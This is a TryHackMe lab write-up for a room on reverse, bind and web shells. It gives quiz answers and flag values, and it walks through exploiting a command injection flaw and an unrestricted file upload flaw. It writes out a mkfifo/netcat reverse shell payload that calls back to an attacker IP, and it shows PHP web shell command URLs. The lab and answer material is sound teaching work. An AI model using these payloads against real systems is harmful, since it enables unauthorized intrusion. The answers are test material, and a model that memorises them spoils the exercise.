##### Link: [Shells Overview](https://tryhackme.com/room/shellsoverview)
---
##### Task 1: Room Introduction
1. Click to complete the task.
	- `No answer needed`
---
##### Task 2: Room Introduction
1. What is the command-line interface that allows users to interact with an operating system?
	- `Shell`
2. What process involves using a compromised system as a launching pad to attack other machines in the network?
	- `Pivoting`
3. What is a common activity attackers perform after obtaining shell access to escalate their privileges?
	- `Privilege Escalation`
---
##### Task 3: Reverse Shell
1. What type of shell allows an attacker to execute commands remotely after the target connects back?
	- `Reverse Shell`
2. What tool is commonly used to set up a listener for a reverse shell?
	- `Netcat`
---
##### Task 4: Bind Shell
1. What type of shell opens a specific port on the target for incoming connections from the attacker?
	- `Bind Shel`
2. Listening below which port number requires root access or privileged permissions?
	- `1024`
---
##### Task 5: Shell Listener 
1. Which flexible networking tool allows you to create a socket connection between two data sources?
	- `socat`
2. Which command-line utility provides readline-style editing and command history for programs that lack it, enhancing the interaction with a shell listener?
	- `rlwrap`
3. What is the improved version of Netcat distributed with the Nmap project that offers additional features like SSL support for listening to encrypted shells?
	- `ncat`
---
##### Task 6: Shell Payloads
1. Which Python module is commonly used for managing shell commands and establishing reverse shell connections in security assessments?
	- `subprocess`
2. What shell payload method in a common scripting language uses the `exec`, `shell_exec`, `system`, `passthru`, and `popen` functions to execute commands remotely through a TCP connection?
	- `PHP`
3. Which scripting language can use a reverse shell by exporting environment variables and creating a socket connection?
	- `Python`
---
##### Task 7: Web Shell
1. What vulnerability type allows attackers to upload a malicious script by failing to restrict file types?
	- `Unrestricted File Upload`
2. What is a malicious script uploaded to a vulnerable web application to gain unauthorized access?
	- `Web Shell`
---
##### Task 8: Practical Task
1. Using a reverse or bind shell, exploit the command injection vulnerability to get a shell. What is the content of the flag saved in the `/` directory?
	- Visit target for command injection 
		- `http://10.48.180.40:8081/`. 
			- 
	- We find a web app that accept file input and hash it. Likely using shell command.
		- Image
			- 
	- Try shell command injection payload. `;` to end original command followed by injecting `ls;`
		- `;ls;`
			- 
	- It’s working. Because it ran shell command, we will try bash reverse shell. 
	- Run the listener
		- `nc -nvlp 4444`
			- 
	- Now run the payload. Don’t forget to append `;` in the beginning to close original command.		- 
		- `;rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc 192.168.167.10 4444 >/tmp/f;`
			- 
	- Back to listener, we get reverse shell. 
		- Image
			- 
	- Read the flag at `/`
		- `cat /flag.txt`
			- 
	- Answer: `THM{0f28b3e1b00becf15d01a1151baf10fd713bc625}`
2. Using a web shell, exploit the unrestricted file upload vulnerability and get a shell. What is the content of the flag saved in the `/` directory?
	- Open target file upload page 
		- `http://10.48.180.40:8082/`
			- 
	- We find upload form. 
	- Try upload some file and open it in `/uploads` directory
		- Image
			- 
			- 
		- `http://10.48.180.40:8082/uploads/test.txt`
			- 
	- It successfully uploaded and we manage to open the file
	- `Wappalyzer` show this website use `PHP` so we will upload PHP web shell
		- `Wappalizer`
			- 
		- Upload file
			- 
			- 
	- Test with `id` command, it gets executed
		- `http://10.48.180.40:8082/uploads/webshell.php?cmd=id`
			- 
	- Now get the flag
		- `http://10.48.180.40:8082/uploads/webshell.php?cmd=cat+/flag.txt`
			- 
	- Answer: `THM{202bb14ed12120b31300cfbbbdd35998786b44e5}`
---
##### Task 9: Conclusion
1. I have successfully completed the room, and I now understand how Reverse Shells, Bind Shells, and Web Shells work!
	- `No answer needed`
---
